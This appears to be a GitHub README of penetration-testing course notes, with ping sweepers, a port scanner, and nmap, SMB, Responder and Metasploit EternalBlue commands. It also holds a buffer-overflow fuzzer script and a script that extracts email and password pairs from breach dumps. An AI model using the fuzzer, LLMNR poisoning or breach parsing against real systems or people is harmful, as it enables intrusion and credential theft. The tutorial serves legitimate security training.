


# Cybersecurity Learning and Practical Project Documentation

This project is a comprehensive collection of cybersecurity learning, tools usage, scanning techniques, exploitation, post-exploitation, Active Directory attacks, and defense techniques.  
It includes bash scripts, Python programs, Wireshark and Nmap scanning, exploitation frameworks, and pivoting techniques.  
The goal of this project is to demonstrate practical knowledge through hands-on exercises.

---

## Table of Contents
- [Part 1 - Network Scanning with Bash Scripts](#part-1-network-scanning-with-bash-scripts)
- [Part 2 - Python Basics](#part-2-python-basics)
- [Part 3 - Python Port Scanner](#part-3-python-port-scanner)
- [Part 4 - Information Gathering](#part-4-information-gathering)
- [Part 5 - Network Scanning Tools](#part-5-network-scanning-tools)
- [Part 6 - Vulnerability Discovery](#part-6-vulnerability-discovery)
- [Part 7 - Exploitation and Gaining Access](#part-7-exploitation-and-gaining-access)
- [Part 8 - Active Directory Attacks](#part-8-active-directory-attacks)
- [Part 9 - NTLM Relay and Token Impersonation](#part-9-ntlm-relay-and-token-impersonation)
- [Part 10 - MS17-010 (EternalBlue), GPP cPasswords, and Kerberoasting](#part-10-MS17-010-(EternalBlue),-GPP-cPasswords,-and-Kerberoasting)
- [Part 11 - File Transfers, Pivoting, and Cleanup](#part-11-file-transfers-pivoting-and-cleanup)

---

# Part 1: Network Scanning with Bash Scripts

This section covers basic **network scanning techniques using bash scripts**. These techniques are often the **first step** in reconnaissance during cybersecurity assessments. We automate tasks like identifying live hosts and performing port scans to save time and reduce manual work.

---

## Bash Script: `ipsweep.sh`

The `ipsweep.sh` script is a **bash script** used to perform a **simple network sweep**. It checks for live hosts in a given subnet by sending ICMP Echo Requests (ping) and observing which hosts respond.

### Script Code:

```bash
#!/bin/bash

if [ "$1" == "" ]
then
  echo "You forgot an IP address!"
  echo "Syntax: ./ipsweep.sh 192.168.1"
else
  for ip in `seq 1 254`; do
    ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":" &
  done
fi
```

### How `ipsweep.sh` Works:

- **Input Validation:**
  - The script first checks if the user has entered a base IP address (e.g., `192.168.1`).
  - If not provided, it prompts the user with correct usage syntax: `./ipsweep.sh 192.168.1`.

- **Host Discovery:**
  - Using a `for` loop and the `seq` command, it iterates from 1 to 254, representing the last octet of an IP address.
  - It **pings** each generated IP once (`-c 1` means send one packet).
  - The output is **filtered** to find responses that contain `64 bytes`, meaning a successful ping.
  - The `cut` command extracts the IP address of the responding host.
  - The `tr` command removes the trailing colon from the IP address.

- **Parallel Execution:**
  - Each ping command runs in the background (`&`), allowing multiple pings to be executed simultaneously for faster results.

### Example Usage:

```bash
chmod +x ipsweep.sh
./ipsweep.sh 192.168.1
```

- This will scan from `192.168.1.1` to `192.168.1.254` and output the IPs that are alive.

### Important Points:

- **Fast Scanning:** The use of background processes makes scanning quicker compared to sequential execution.
- **Simple and Lightweight:** Ideal for small networks and initial testing.
- **Limitations:**
  - Only detects hosts that respond to ICMP (ping).
  - Some devices or firewalls may block ICMP, causing false negatives.

---

## Bash Script: Quick Nmap Scanner

Another quick method for **port scanning** known hosts is using `nmap` in a loop over a list of IPs.

### Script Code:

```bash
for ip in $(cat iplist.txt); do nmap -p 80 -T4 $ip & done
```

### How This Nmap Script Works:

- **Reads IP addresses** from a file called `iplist.txt`. Each IP should be on a new line.
- **Scans** port 80 (HTTP) on each IP address using **Nmap**, a powerful network scanning tool.
- **-T4 option:** Speeds up the scan. Nmap has timing templates from `-T0` (paranoid) to `-T5` (insane).
- **Background Execution (`&`):** Each scan runs in the background, improving speed by scanning multiple targets simultaneously.

### Example Usage:

```bash
echo "192.168.1.10" > iplist.txt
echo "192.168.1.11" >> iplist.txt
echo "192.168.1.12" >> iplist.txt

chmod +x yournmapscan.sh
./yournmapscan.sh
```

---

## Additional Suggestions and Enhancements:

To make the `ipsweep.sh` and Nmap scanner scripts more robust and feature-rich, you could add:

- **Color Coding Results:** Highlight alive hosts in green, dead hosts in red.
- **Save Outputs to a File:** Redirect outputs to a timestamped file for later analysis.
- **Multiple Ports Scan:** Allow scanning multiple ports instead of just port 80.
- **Error Handling:** Better error messages for wrong input.
- **Hostnames Resolution:** Try resolving IPs to hostnames using `nslookup` or `dig`.
- **ICMP Flood Protection:** Implement sleep or rate limiting to avoid overwhelming the network.

Example for saving results:

```bash
for ip in $(cat iplist.txt); do nmap -p 80 -T4 $ip >> results.txt & done
```

---

# Summary for Part 1

In this part, you learned how to:

- Perform a simple but efficient network sweep using a Bash script.
- Identify live hosts in a subnet quickly.
- Use Nmap to scan specific ports across multiple IP addresses.
- Optimize scripts using background processes.

These small automation scripts form the building blocks of larger penetration testing toolsets.

---

# Next Steps
In the upcoming parts, we'll dive deeper into using **Python** to automate port scanning, information gathering, and further into exploitation techniques.


---

# Part 2: Python Basics

### Python Scripts for Network Tasks and Fuzzing

---

### **`bof.py` - Buffer Overflow Fuzzing Script**

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.1', 9999))
        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100

    except:
        print("Fuzzing crashed at %s bytes" % (str(len(buffer))))
        sys.exit()
```

**Detailed Description:**
- **Purpose:**
  - This script is used for fuzzing a vulnerable service running on IP `192.168.1.1` port `9999`.
  - It helps to find the crash point of a service by sending increasing lengths of data ("A" characters) to trigger a buffer overflow.

- **Working:**
  - Starts with a buffer of 100 'A's.
  - Continuously tries to:
    - Create a TCP socket.
    - Connect to the target IP and port.
    - Send the payload to the vulnerable "TRUN" command of the service.
    - Close the socket and wait for 1 second.
    - Increase the buffer by another 100 'A's each loop.
  - If the service crashes (socket connection fails), it prints the number of bytes at which it crashed and exits.

- **Importance in Cybersecurity:**
  - Finding the crash point is the first step in building an exploit for a buffer overflow vulnerability.
  - Used heavily in penetration testing and exploit development.

- **Potential Improvements:**
  - Add command-line arguments for dynamic IP and port selection.
  - Log results to a file for later analysis.

---

### **`sweep.py` - Subnet Ping Sweeper**

```python
import subprocess
import datetime
import re
import argparse

def write_result(filename, ping):
    with open(filename, "w") as f:
        f.write(f"Start time {datetime.datetime.now()}\n")
        for result in ping:
            f.write(result)
        f.write(f"End time {datetime.datetime.now()}\n")

def ping_subnet(subnet):
    for addr in range(1, 255):
        yield subprocess.Popen(["ping", f"{subnet}.{addr}", "-n", "1"], stdout=subprocess.PIPE) \
        .stdout.read()																			\
        .decode()

def main(subnet, filename):
    write_result(filename, ping_subnet(subnet))

def parse_arguments():
    parser = argparse.ArgumentParser(usage='%(prog)s [options] <subnet>',
                                     description='IP checker',
                                     epilog="python ipscanner.py 192.168.1 -f somefile.txt")
    parser.add_argument('subnet', type=str, help='The subnet you want to ping')
    parser.add_argument('-f', '--filename', type=str, help='The filename')
    args = parser.parse_args()

    if not re.match(r"(\d{1,3}\.\d{1,3}\.\d{1,3})", args.subnet) \
       or any(a not in range(1, 255) for a in map(int, args.subnet.split("."))):
        parser.error("This is not a valid subnet")

    if " " in args.filename:
        parser.error("There cannot be whitespace in the filename")

    return args.subnet, args.filename

if __name__ == '__main__':
    main(*parse_arguments())
```

**Detailed Description:**
- **Purpose:**
  - This script pings every IP address in a given subnet (from `.1` to `.254`).
  - It records the ping results along with timestamps into a specified file.

- **Working:**
  - `ping_subnet(subnet)` generates ping results for every address in the subnet.
  - `write_result(filename, ping)` writes the ping results with start and end times.
  - `parse_arguments()` uses `argparse` to safely handle user input for the subnet and filename, ensuring:
    - Subnet format is correct (e.g., `192.168.1`).
    - No spaces in the filename.
  - The main function ties these together.

- **Importance in Cybersecurity:**
  - Useful for quickly mapping active devices in a subnet.
  - Important for network reconnaissance, vulnerability assessment, and penetration testing.

- **Potential Improvements:**
  - Add parallel pinging to speed up the process.
  - Add options to specify ports and timeout values.
  - Color-code successful and failed pings in the terminal output.

---

### Summary of Part 2:
- **Key Focus Areas:**
  - Scripting for network automation (ping sweepers).
  - Introduction to buffer overflow fuzzing techniques.
  - Using Python's standard libraries like `socket`, `subprocess`, `argparse`, `re`, and `datetime` effectively.

These foundational Python scripts are stepping stones towards creating sophisticated cybersecurity tools for automation, exploitation, and reconnaissance.
---

# Part 3: Python Port Scanner

This section introduces a **simple TCP port scanner built with Python**. Port scanning is a fundamental step in reconnaissance to identify open services on a network. Using Python's `socket` library, we can automate and customize scanning processes easily.

---

## Python Script: `scanner.py`

The `scanner.py` script is a **Python-based port scanner** that scans a range of ports on a given target IP address and identifies which ports are open.

### Script Code:

```python
#!/bin/python3

import sys  # Allows us to enter command line arguments, among other things
import socket
from datetime import datetime

# Define our target
if len(sys.argv) == 2:
    target = socket.gethostbyname(sys.argv[1])  # Translate a host name to IPv4
else:
    print("Invalid amount of arguments.")
    print("Syntax: python3 scanner.py <ip>")
    sys.exit()

# Add a pretty banner
print("-" * 50)
print("Scanning target " + target)
print("Time started: " + str(datetime.now()))
print("-" * 50)

try:
    for port in range(50, 85):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        socket.setdefaulttimeout(1)  # Timeout value is a float
        result = s.connect_ex((target, port))  # Returns an error indicator
        print("Checking port {}".format(port))
        if result == 0:
            print("Port {} is open".format(port))
        s.close()

except KeyboardInterrupt:
    print("\nExiting program.")
    sys.exit()

except socket.gaierror:
    print("Hostname could not be resolved.")
    sys.exit()

except socket.error:
    print("Couldn't connect to server.")
    sys.exit()
```

---

## How `scanner.py` Works:

- **Input Validation:**
  - The script expects one argument: the target IP address or hostname.
  - If not provided correctly, it shows usage instructions and exits.

- **Target Resolution:**
  - It uses `socket.gethostbyname()` to resolve the hostname into an IP address.

- **Scanning Process:**
  - Prints a banner with the target IP and current time.
  - Scans ports from **50 to 85**.
  - For each port:
    - Creates a new socket.
    - Sets a timeout of 1 second.
    - Attempts to connect to the port using `connect_ex()`.
    - If the result is `0`, the port is open.
    - Prints open ports as they are discovered.

- **Error Handling:**
  - **KeyboardInterrupt:** Graceful exit when user presses `Ctrl+C`.
  - **Socket.gaierror:** Handles invalid hostnames.
  - **Socket.error:** Handles general connection errors.

---

## Example Usage:

```bash
python3 scanner.py 192.168.1.1
```

- This will scan ports **50 to 85** on the IP address `192.168.1.1` and display which ports are open.

---

## Important Points:

- **Timeout Settings:**
  - Setting a timeout prevents the script from hanging if a port is filtered or unresponsive.

- **Lightweight and Customizable:**
  - Easy to modify the range of ports or add more detailed reporting.

- **Error Handling:**
  - Ensures the script doesn't crash unexpectedly and provides user-friendly error messages.

- **Use of Banners:**
  - Helps to visually organize the output when scanning multiple hosts.

---

## Potential Improvements:

- Allow users to specify port ranges dynamically through command-line arguments.
- Add multi-threading to speed up scanning.
- Include service detection (e.g., guessing what service is running on the open port).
- Save scan results into a log file.
- Support both TCP and UDP scanning.

---

# Summary for Part 3

In this part, you learned how to:

- Build a simple TCP port scanner using Python.
- Understand the basics of sockets and network communication in Python.
- Perform structured error handling for a smoother user experience.
- Customize scanning parameters such as port range and timeout values.

This foundational project sets the stage for building more powerful scanning tools and integrating advanced features like multi-threading, service fingerprinting, and network mapping.

---

# Next Steps
In the upcoming parts, we'll further expand on Python-based scanning and start automating vulnerability detection and exploitation techniques.

---

# Part 4: Information Gathering and Reconnaissance

In this part, we focus on **Information Gathering**, the **first phase of penetration testing**. The goal is to collect as much information as possible about the target before attempting any attacks. This passive and active reconnaissance helps in identifying potential vulnerabilities without alerting the target.

---

## Techniques and Tools for Information Gathering

### 1. Google Dorking

Google Dorking uses **advanced search queries** to find publicly available sensitive information that is not easily visible through standard searches.

Example:

```bash
site:tesla.com filetype:pdf
```

- This query searches only within the domain `tesla.com` and looks specifically for PDF files.
- Attackers and researchers use similar queries to discover exposed documents, login portals, sensitive directories, and more.

---

### 2. Subdomain Enumeration

Subdomain enumeration helps to discover **additional servers** associated with a domain. These often include development servers, staging environments, and legacy systems that may have weaker security.

Tool Example:

- [crt.sh](https://crt.sh/)

  - `crt.sh` is a free Certificate Transparency log search engine.
  - It reveals subdomains by analyzing SSL/TLS certificates issued for the domain.

---

### 3. Email and Domain Harvesting

Tools like **theHarvester** are used to collect **email addresses**, **subdomains**, and **domain-related information** from public sources such as search engines and public repositories.

Example usage:

```bash
theharvester -d tesla.com -l 500 -b duckduckgo
```

- **-d** specifies the domain to search.
- **-l** sets the limit on the number of results.
- **-b** defines the search engine backend (in this case, DuckDuckGo).

**theHarvester** supports multiple backends like Google, Bing, Yahoo, and DuckDuckGo.

---

### 4. Technology Detection

Identifying the technologies used by a target's website can help in crafting specific attacks based on known vulnerabilities.

#### Browser-based Tools:

- **Wappalyzer Extension:**
  - Available for Chrome, Firefox, and Edge.
  - Automatically detects the technologies used on websites (e.g., web servers, CMS platforms, analytics tools, frameworks).

#### Command-line Tools:

- **WhatWeb** is a powerful tool that identifies web technologies.

Example usage:

```bash
whatweb -v tesla.com
```

- The `-v` flag enables verbose mode, providing more detailed output.
- WhatWeb can detect CMS, web servers, frameworks, programming languages, and more.

#### Online Services:

- **[BuiltWith](https://builtwith.com/)**

  - Online tool for detailed analysis of web technologies.
  - Provides technology trends, historical data, and competitor research.

---

## Bash Script: `parser.sh`

While using manual tools is effective, automation helps gather large amounts of information quickly. `parser.sh` is a Bash script that automates parsing breached data to extract specific emails and credentials.

### Script Code:

```bash
#!/bin/bash

if [ "$#" -ne 2 ]; then
    echo "Breach-Parse v2: A Breached Domain Parsing Tool by Heath Adams"
    echo " "
    echo "Usage: breach-parse <domain to search> <file to output>"
    echo "Example: breach-parse @gmail.com gmail.txt"
    echo " "
    echo 'For multiple domains: breach-parse "<domain to search>|<domain to search>" <file to output>'
    echo 'Example: ./parser.sh "@mail.com|@tesla.com|@gmail.com|@yahoo.com" multiple.txt'
    exit 1
else
    fullfile=$2
    fbname=$(basename "$fullfile" | cut -d. -f1)
    master="$fbname-master.txt"
    users="$fbname-users.txt"
    passwords="$fbname-passwords.txt"

    touch "$master"
    total_Files=$(find /opt/breach-parse/BreachCompilation/data -type f | wc -l)
    file_Count=0

    function ProgressBar {
        let _progress=(${file_Count}*100/${total_Files})
        let _done=(${_progress}*4)/10
        let _left=40-$_done

        _fill=$(printf "%${_done}s")
        _empty=$(printf "%${_left}s")
        printf "\rProgress : [${_fill// /\#}${_empty// /-}] ${_progress}%%"
    }

    find /opt/breach-parse/BreachCompilation/data -type f -print0 | while read -d $'\0' file; do
        grep -a -E "$1" "$file" >> "$master"
        ((++file_Count))
        ProgressBar
    done

fi

sleep 3

awk -F':' '{print $1}' "$master" > "$users"
sleep 1
awk -F':' '{print $2}' "$master" > "$passwords"
echo
exit 0
```

### How `parser.sh` Works:

- **Input Validation:**
  - Checks if exactly two arguments are provided: the search domain(s) and the output filename.
  - If not, displays usage instructions.

- **Data Parsing:**
  - Searches through a massive breach data directory.
  - Greps for the provided domain(s) in the breach files.
  - Writes matching email-password pairs into a master file.
  - Separates usernames and passwords into their own respective files.

- **Progress Bar:**
  - A simple progress bar shows the script's progress as it processes the data.

### Example Usage:

```bash
chmod +x parser.sh
./parser.sh "@gmail.com" gmail.txt
```

- This would create three output files: `gmail-master.txt`, `gmail-users.txt`, and `gmail-passwords.txt`.

---

### Bulto tool:
https://github.com/darryllane/Bluto


---
# Summary for Part 4

In this part, you learned how to:

- Use Google Dorking for advanced search reconnaissance.
- Discover subdomains using SSL certificate transparency logs.
- Harvest emails and domain information using automated tools.
- Detect web technologies using browser extensions, command-line tools, and online services.
- Automate breached data parsing with a Bash script.

These skills form the foundation of passive information gathering, which is crucial for stealthy and effective penetration testing.

---

# Next Steps

In the upcoming parts, we will explore **active enumeration techniques** and **vulnerability scanning** to identify potential attack vectors in greater detail.

---

# Part 5: Network Scanning and Analysis Tools

This section introduces essential **network scanning and analysis tools** commonly used during cybersecurity assessments. These tools assist in discovering active hosts, analyzing network traffic, identifying vulnerabilities, and testing web applications.

---

## Key Tools Overview

### 1. Wireshark

- **Purpose:** Packet capture and network traffic analysis.
- **Usage:**
  - Capture live network traffic.
  - Analyze packet-level data.
  - Troubleshoot network issues.
  - Identify suspicious traffic patterns.

### 2. Nmap

**Nmap** (Network Mapper) is a powerful and flexible tool for network discovery and security auditing. Below are common commands along with a single-line version for quick copying.

#### Common Nmap Commands:

- **Ping Scan - Discover live hosts on a network:**

  ```bash
  nmap -sn 192.168.1.0/24
  ```


- **Standard Scan - Scan a specific host quickly:**

  ```bash
  nmap -T4 192.168.1.100
  ```


- **Aggressive Scan - OS detection, version detection, script scanning, and traceroute:**

  ```bash
  nmap -T4 -A -p- 192.168.1.100
  ```


- **Scan Specific Ports:**

  ```bash
  nmap -T4 -A -p23,80,443,843,1234,1300,9876 192.168.1.100
  ```


- **Full Port Scan and Save Output:**

  ```bash
  nmap -T4 -p- 192.168.1.100 -oA client
  ```


- **UDP Scan:**

  ```bash
  nmap -sU -T4 192.168.1.100
  ```


- **SSL Enumeration on HTTPS Port:**

  ```bash
  nmap -p 443 --script=ssl-enum-ciphers tesla.com
  ```


#### Key Options Description:

- `-sn`: Perform a ping scan only, without port scanning.
- `-T4`: Aggressive timing template to speed up scanning.
- `-A`: Enables OS detection, version detection, script scanning, and traceroute.
- `-p-`: Scan all 65535 TCP ports.
- `-sU`: Conduct a UDP scan instead of TCP.
- `-oA`: Save output in multiple formats (normal, XML, grepable).

### 3. Metasploit Framework

- **Purpose:** Advanced network scanning, vulnerability assessment, and exploitation framework.
- **Features:**
  - Exploit development and testing.
  - Payload generation.
  - Post-exploitation tools.
  - Integration with Nmap for automated host discovery.

### 4. Nikto

- **Purpose:** Web server vulnerability scanner.
- **Usage:**
  - Identifies server misconfigurations.
  - Detects outdated software versions.
  - Discovers known vulnerabilities and insecure files or scripts.

### 5. Burp Suite

- **Purpose:** Web application security testing and proxy tool.
- **Features:**
  - Intercept, inspect, and modify web traffic between the browser and server.
  - Perform automated vulnerability scanning.
  - Manual testing of parameters, cookies, and inputs.
  - Intruder tool for fuzzing and brute-forcing attacks.

---

# Summary for Part 5

In this part, you explored several vital tools that aid in network scanning, traffic analysis, vulnerability detection, and web application testing. Mastery of these tools is crucial for efficient reconnaissance and penetration testing activities.

---

# Next Steps

Coming up, we will focus on automating scans using **Python scripts**, and dive into **custom exploitation techniques** for real-world scenarios.

---

# Part 6: Vulnerability Discovery and Enumeration

This section covers essential **vulnerability discovery and enumeration tools** that are critical during cybersecurity assessments. These tools help identify live hosts, find vulnerabilities, discover hidden directories, and gather valuable information about targets.

---

## Key Tools Overview

### 1. Netdiscover

- **Purpose:** Discover live hosts on a network through ARP scanning.
- **Usage:**
  - Automatically detect IP addresses and MAC addresses.
  - Ideal for identifying devices in a local network without prior knowledge.

### 2. Nessus

- **Purpose:** Comprehensive vulnerability assessment tool.
- **Usage:**
  - Scan systems for known vulnerabilities.
  - Generate detailed security reports.
  - Detect configuration issues, missing patches, and security weaknesses.

### 3. Dirbuster

- **Purpose:** Directory and file brute-forcing tool.
- **Usage:**
  - Discover hidden files and directories on a web server.
  - Useful for uncovering admin panels, configuration files, and sensitive directories.

### 4. Exploit Databases

- **Purpose:** Find public exploits and vulnerabilities.
- **Resources:**
  - [CVE Details](https://cvedetails.com/): Database of publicly disclosed cybersecurity vulnerabilities.
  - [Exploit-DB](https://exploit-db.com/): Repository for exploits and vulnerable software.

### 5. SMB Enumeration

Enumerating SMB shares to gather information about network resources.

#### Common Commands:

- **List available shares:**

  ```bash
  smbclient -L \\192.168.202.130
  ```


- **Connect to ADMIN\$ share:**

  ```bash
  smbclient -L \\192.168.202.130\ADMIN$
  ```


- **Connect to IPC\$ share:**

  ```bash
  smbclient -L \\192.168.202.130\IPC$
  ```


### 6. Metasploit SMB Version Scanner

- **Purpose:** Determine the SMB version running on a target.
- **Command:**
  ```bash
  use auxiliary/scanner/smb/smb_version
  ```

### 7. Scanning and Targeting Machines

Perform port scans and service enumeration using Nmap.

- **Full port scan:**

  ```bash
  nmap -T4 -p- 10.10.10.133
  ```


- **Scan specific ports with service detection:**

  ```bash
  nmap -A -T4 -p22,80,60080 10.10.10.133
  ```


#### Key Options:

- `-T4`: Speed up the scan.
- `-p-`: Scan all 65535 ports.
- `-A`: Enable OS detection, version detection, script scanning, and traceroute.

---

# Summary for Part 6

In this part, you learned about critical tools and techniques for vulnerability discovery and enumeration. Mastering these tools will help you efficiently find weak points in a network or system before attempting exploitation.

---

# Next Steps

In the following sections, we'll explore **exploitation techniques** and **post-exploitation activities** to further enhance your penetration testing skills.

---

# Part 7: Exploitation, Reverse Shells, and Credential Stuffing

This section dives into **initial exploitation**, obtaining **reverse shells**, and leveraging **credentials** for gaining further access during cybersecurity assessments.

---

## Gaining Initial Access

Exploitation often starts after finding vulnerabilities through enumeration. Successful exploitation leads to remote code execution, reverse shells, or unauthorized access.

### Common Attack Techniques:

- Vulnerability exploitation (manual or automated)
- Anonymous login abuse
- Password reuse and credential stuffing

---

## Reverse Shells and Bind Shells

Understanding the difference between **reverse shells** and **bind shells** is crucial during exploitation.

- **Reverse Shell:** The target machine connects back to the attacker's machine.
- **Bind Shell:** The target machine opens a port and listens for incoming connections.

**Illustrations:**


---

## Target Identification and Enumeration

Identifying the correct service and version is vital before launching exploits.

**Service Discovery Process:**


---

## Running Exploits

Once the vulnerability is confirmed, exploits can be tested.

**Example: OpenLuck Exploit:**


**Payload Types:**

- **Staged Payload:** Breaks the payload into parts.
- **Non-Staged Payload:** Single, self-contained payload.


---

## Targeting New Machines

Use **Nmap** for aggressive scans on new machines:

```bash
nmap -T4 -p- -A 10.10.10.3
```

---

## Anonymous Login Exploitation

Exploiting services with weak or anonymous login:


---

## Credential Discovery

Collect passwords and credentials from dumped files and leaked databases.

**Credential Collection Example:**


**Parsing Breached Data:**

Running breach-parse to extract usable credentials:


---

## Credential Stuffing with Burp Suite

Using Burp Suite for manual credential stuffing attacks.

**Proxy and Login Attempts:**


---

# Summary for Part 7

In this part, you practiced how to:

- Gain access through vulnerabilities.
- Obtain reverse shells.
- Collect and use leaked credentials.
- Utilize Burp Suite for credential attacks.

These exploitation techniques are fundamental to penetration testing and red teaming.

---

# Next Steps

In the upcoming parts, we will explore **privilege escalation** and **post-exploitation** tactics.

---

# Part 8: Building an AD Lab, LLMNR Poisoning, and NTLMv2 Cracking with Hashcat

In this section, we will dive deeper into **exploit development**, including more **assembly programming**, **egghunting**, and cracking **NTLMv2 hashes** captured during **LLMNR poisoning** attacks. This part includes a setup for an **Active Directory (AD) lab** and practical techniques for cracking NTLMv2 hashes using **Hashcat** and **John the Ripper**.

---

## Setting Up the Lab

### Install Windows Server 2016


### Install Windows 10

After installation, proceed to attack the setup.


---

## Performing the Attack

Now that the environment is set up, we begin by launching the **Responder** tool. Responder captures traffic generated by users when they attempt to log in, specifically looking for SMB traffic and NTLMv2 hashes.

### Running Responder

It’s ideal to run **Responder** during times when many users are logging in, typically in the morning, to capture as much data as possible.


### Responder


### Responder Setting Up


---
### Listening for events


## Accessing the Captured Hashes

Once the hashes are captured by Responder, they can be accessed for cracking.



---

## Cracking NTLMv2 Hashes

### Generating the Hashes from SMB Requests

When attempting to access the Kali machine from the Windows 10 system, SMB traffic is generated that contains the NTLMv2 hashes.


---

### Cracking the Hashes with Hashcat or John The Ripper

To crack the captured NTLMv2 hashes, use **Hashcat** or **John the Ripper** with dictionaries such as **rockyou.txt** (133MB), **realuniq.txt** (15GB), or your custom wordlist.


---

### Running Hashcat in Windows

If **Hashcat** or **John the Ripper** doesn't work well in the VM, try running them on a **Windows machine** for better performance.


### Cracked Password


---

## Final Result

Once the hash is cracked, you’ll get the corresponding password.


---

## Defense Mechanisms

To prevent attacks like **LLMNR poisoning** and **NTLMv2 hash capturing**, the following defense mechanisms can be implemented.


---

# Summary for Part 8

In this part, you learned how to set up an **Active Directory lab**, launch an **LLMNR poisoning** attack to capture **NTLMv2 hashes**, crack those hashes using tools like **Hashcat** and **John the Ripper**, and implement defense strategies to protect against these types of attacks.

---

# Next Steps

In the upcoming parts, we will continue exploring advanced exploitation techniques, focusing on real-world application scenarios and defense strategies.

---

# Part 9: NTLM Relay, Token Impersonation, and PsExec

In this section, we explore **internal network exploitation techniques**, specifically **NTLM relay attacks**, **token impersonation**, and the use of **PsExec** to exploit SMB vulnerabilities in a Windows network. These methods are critical for escalating privileges and gaining deeper access within an internal network.

---

### Reading on Internal Network Exploitation Techniques:

Understanding **NTLM relay**, **token impersonation**, and **PsExec** exploitation is crucial for performing successful internal network attacks. Here are some references to get started:


### Extended Reading:


---

## Using CrackMapExec for Enumeration

**CrackMapExec** (CME) is a popular tool for network enumeration, SMB/NetSession enumeration, and executing basic exploits on Windows networks. Here is an example of the **CrackMapExec** output, which is useful for checking live hosts and user sessions across the network.


---

## Setting Up PsExec Module via Metasploit

**Metasploit**’s **PsExec** module allows us to execute commands remotely on a system using SMB. This is a common method to move laterally within a network and escalate privileges.

### Metasploit Module Setup:


### Exploit Configuration:


### Running the Exploit:


### System Access Achieved:


---

## Continuing Session from Previous Exploitation

Once we have successfully exploited the target system, we can continue our session to perform further actions, such as **privilege escalation** or **lateral movement** within the network.


---

## Relay Attack Setup

**NTLM relay attacks** involve capturing NTLM authentication requests and relaying them to another target system, allowing the attacker to impersonate a legitimate user.

### Relay Attack Setup:

## Adjustments on Windows Server for Relay

To make relay attacks successful, certain **Windows Server settings** need to be adjusted. These changes ensure that the system is vulnerable to NTLM relay.

### Server Policy Changes:


### SMB/HTTP Settings:


---

## Running Responder for Relay

**Responder** is a tool that can be used to capture and relay NTLMv2 authentication requests. It listens for authentication attempts on the local network and relays them to the attacker's machine.

### Running Responder:

```bash
python Responder.py -I eth0 -rdw
```


### Relay Captured:


---

# Summary for Part 9

In this part, we focused on **NTLM relay attacks**, **token impersonation**, and **PsExec** exploitation techniques. These methods are vital for exploiting SMB vulnerabilities and escalating privileges within a Windows network. Additionally, we explored using **CrackMapExec** for network enumeration and **Metasploit** for exploiting SMB vulnerabilities.

---

# Next Steps

Next, we will dive deeper into **lateral movement techniques**, **post-exploitation tactics**, and other methods for maintaining persistence within the compromised network.


---

# Part 10: MS17-010 (EternalBlue), GPP cPasswords, and Kerberoasting

In this part, we explore the exploitation of MS17-010, a critical vulnerability in Windows SMB, along with the use of GPP (Group Policy Preferences) and cPasswords to gather credentials. We also cover Kerberoasting, a technique for extracting service account credentials from Active Directory.

---

### **Nmap on HackTheBox**

We begin by scanning the network to identify the target machine using **Nmap**. The scan helps us locate open ports and determine if the target machine is vulnerable to MS17-010.


---

### **Inside msfconsole**

Once the target machine is identified, we move to **Metasploit's msfconsole** to attempt exploiting the MS17-010 vulnerability. This vulnerability allows for remote code execution on unpatched Windows systems via SMB.

```bash
set rhosts 10.10.10.40
run
```
- **Note:** The exploit may fail initially, requiring multiple attempts. This is common in real-world attacks as some configurations or defenses may block the exploit.


---

### **Retrying the Exploit**

If the first attempt does not succeed, we try again or adjust the exploit settings. Sometimes, multiple attempts are necessary before a successful exploitation.


---

### **Using a Different Exploit**

If the MS17-010 exploit does not work, we attempt a different exploit module within Metasploit. The choice of exploit may vary depending on the target system and its configurations.


```bash
run
```
- After running the new exploit, we successfully capture the target machine.




---

### **Gaining Shell Access**

After successfully capturing the hash, we have the credentials to access the target machine. This gives us full control over the system, allowing us to execute commands and maintain persistence.

---

